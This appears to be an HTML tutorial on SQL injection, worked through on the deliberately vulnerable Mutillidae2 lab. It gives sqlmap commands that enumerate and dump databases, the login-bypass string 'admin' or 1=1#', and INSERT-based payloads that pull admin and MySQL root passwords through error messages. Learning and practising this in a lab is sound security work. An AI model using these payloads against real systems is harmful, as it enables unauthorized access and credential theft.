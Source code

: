 <h1>SQL Injection</h1>
<p> SQL injection is when the User Input Data injects something that uses the context interpretation of that entered data to the attacker's advantage. It can do anything from leaking useful data like password hashes to destroying the entire database or spawn an OS shell to the attacker, if unchecked. It still remains as one of the most potent form of injections that a site can be vulnerable to as it attacks a backend datastore.
</p>
<h2> Identification</h2>
<p> Identifying the SQL injection points are the first step, every point must be checked and marked that one encounters during reconnaisance or crawling, sitemap generation etc. Key areas could be.
	<ol>
		<li>Form submissions, registrations, change password etc</li>
		<li>GET URL's typically pagination requests</li>
		<li>Ajax requests behind the scenes that periodically submit user data</li>
		<li>Feedback or comment forms in shopping sites</li>
		<li>User-Agent might be getting logged somewhere in DB, try to inject that as well</li>
	</ol>
<h2>Execution</h2>
<p>
After identifying a suitable entry point, begin your attack. It goes without saying that ensure you have full permission to perform the attack, and the client has backup of the datastore or any crucial data, as the attack could have unforseen consequences. Here we are going to practice on CTF Mutillidae2 so this can be kept aside for now.
</p>
<p>You can attack manually and when some info is revealed ,you may proceed for tools or other complex types of attack. There is no checklist , hacking is all about creativity and above all patience.
So keep digging away until you're sure that the injection point is protected.
</p>

<ol>
	<li>Manually submit values via browser interface</li>
	<ul>
		<li>Will be prevented by Client side scripting(Stupid Level 2)</li>
		<li>Not hackery enough, doesn't give you the feel good</li>
	</ul>
	<li>
		Use a good'ol script that behaves like a browser. Attached the most simple script possible in pytnon
		using Mechanize. (sqlinjection.py) for the User-Info challenge.
	</li>
	<li>
		Use the grand daddy SQLMap tool. More on how to use sqlmap can be found by reading the man page.
		SQLMap ships by default with Kali Linux.
		<ul>
			<li>
				<p>Start by locating sqlmap if it is already installed<p>
				<pre>
locate sqlmap.py
				</pre>
				Traverse to the directory, which will be "/usr/share/sqlmap" , if it is installed
			</li>
			<li>
				First step is to find out, the action URL i.e where the data is being submitted. There are many ways to do this, but I prefer doing it via the proxy of WebExploit tool BurpSuite, by PortSwigger.
				The request URL and method type must be indentified. In this case, the GET request reflects in the URL and can be copied from there. <br> In Burp Suite this can be done using the inbuilt proxy and copying th details from there. <br> We now use the URL with SQLMap as follows.<br> The values of the username and password do not matter,those keys will be used by SQLMap for injection.
				The 
				<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs  
				</pre>
				</li>
				<li>
					The above command will display the databases that could be accessed, use "<b>-D &ltDatabaseName&gt</b>" , and <b>--tables</b>to see tables for the database.
					<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp --tables
					</pre>
					</li>
					<li>
						Once ,tables are displayed,a table name can be selected using "<b>-T &lttableName&gt</b>" and display columns using "<b>--columns</b>"
						<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts --columns
						</pre>
</li>
<li>
	The data from the selected columns can be done by specifying the value "<b>-C &ltcolumn1,column2&gt</b>", and and dump the data using the option "<b>--dump</b>".
</li>
</li>
</ol>
<h2> Different Attack Purpose</h2>
<h3> Extracting Data </h3>
<p>Aim is to extract data via SQL injection, typically attacking inputs where there is a probable of SQL SELECT statement in the background. Attacking Mutillidae2. The demo shown under Execution covers this and also the sqlinjection.py which cracks the injection. At Level 5, Mutillidae2 should be unbreakable, so any hacks found should be reported as bug to the developer.</p>

<h3>1.Bypasing Authentication</h3>

<p>Typical statements where, authentication can be bypassed as an example of SQL injection</p>
A mechanism to bypass authentication via injecting login. Attack via simple command, and try to guess admin username. You can attack via SQLMap, but for learning sake we are gonna manually pass the parameters. On level 2, this method can be used via proxy tool of your choice.


So bypassing the login in Mutillidae2 is pretty easy-peezy lemon squeazy. You just inject the good'ol string <b><i>admin' or 1=1#</i></b>.

<h3>2.Insert based Injection </h3>

Upon identifying an Insert based injection, it is important to know that he Insert statement is the best place to perform what is called a second order SQL Injection if the condition is right.
We can always use the Insert statement to bypass the entries in the database which should not be possible in otherwise normal case.  In Mutillidae2 , the Insert based injection causes the query to break, hence we cannot work with Second order SQL Injection.
Insert SQL statement has this structure. Our injection could be any one or more of the values.
<pre>INSERT INTO blahTABLE(col1,col2,col3) VALUES(val1,val1,val2)</pre>
<p>The values must match the number of columns and also the datatype. We may not always know the number of paramaters before hand, or what type is required by the database.</p><p>Fortunately this shortcoming can be easily bypassed. 
The trick is to start by hit and trial method for the number of parameters, and the type check can be bypassed by using an Integer as it is typecasted into a string by most databases.
Attempts could look like following to guess the number of parameters until the attack is successfull.
<pre>
xxx') -- 
xxx',1) -- 
xxx',1,1) -- 
</pre>
and so on , until you guess the right number of columns that exist. A similar kind of trick can be used with UNION statements to guess the number of columns and their datatypes.

The mutillidae2 solution is to forge a date into the blog, which should be non existent.
<ol>
	<li>
		<b>Add to your blog page<b> can be SQL injected to change the date of the blog, the Insert statement can be easily injected by using this query.  
		<pre>I have some aladeen news','2019-09-09 00:00:00')#</pre>
		<b>Note: I have been trying for a Second order injection, but have not been able to do it</b>
		<p>The user is taken from the cookie and PHPSESSID and unforgeable, so we are left only with the option of the date which only accepts a date and the string of the blog</p>.
		<p>I have so far managed to pull off an error based injection. I am still looking for a way to post the results of the injected SELECT query into the blog itself but haven't been successful
		Adding the below into the blog, we get an error message notifying us of the password of the user admin, and that it does not qualify for a date.
		</p>
		<pre>
			hacker',(SELECT password FROM accounts WHERE username LIKE '%admin' ))#
		</pre>

	</li>
	<li>
		<b>Register yourself page</b>
		You can register by using data from other columns as one of the fields. We cannot however read from <b>the same table</b> we are INSERTING into. Hence unfortunately we cannot read from the accounts table (containing username and password). We can however get crucial column Name by using these. We are targeting the metainfo stored in <b>information_schema </b>. In Oracle we would target all_tabs_columns. 
		Put the following in the username field of registration page. The field we are injected into is the signature field. Since we cannot read from accounts , we can definitely try to read from the vulnerable <b><i>mysql.user</i></b>. The first two queries are when you want to scan the tables for columns. 
		<pre>
			hacker','1',(SELECT column_name from information_schema.columns where table_name='accounts' and column_name LIKE '%user%' LIMIT 1))#
			hacker','1',(SELECT column_name from information_schema.columns where table_name='accounts' and column_name LIKE '%pass%' LIMIT 1))#
			hacker','1',(select password from mysql.user where user=’root’ LIMIT 0,1)#
		</pre>  
	</li>
</ol>
</p>
